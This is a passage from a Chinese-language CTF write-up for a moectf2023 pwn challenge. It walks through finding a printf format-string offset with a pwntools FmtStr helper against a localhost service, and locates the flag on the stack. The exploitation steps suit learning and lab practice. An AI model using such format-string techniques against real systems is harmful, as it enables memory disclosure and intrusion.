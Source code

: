 首先确定偏移量（当前字符串是printf的第几个参数）。

我们可以构造\<tag\>%p*n的格式，也可以动态调试：

![image-20230822180309948](./moectf2023-pwn-wp.assets/image-20230822180309948.png)



图中的位置是第27个参数。也可以用工具FmyStr：

```python
# get offset
def exec_fmt(pad):
    p = remote("localhost", 44129)
    p.sendline(pad)
    return p.recvall()
fmt = FmtStr(exec_fmt)
offset = fmt.offset
print(offset) # 27
```

通过IDA观察main的栈的结构可以发现flag在name往上0x40（相对name的偏移量为20）的位置，是printf的第7个参数。

![image-20230822180622253](./moectf2023-pwn-wp.assets/image-20230822180622253.png)
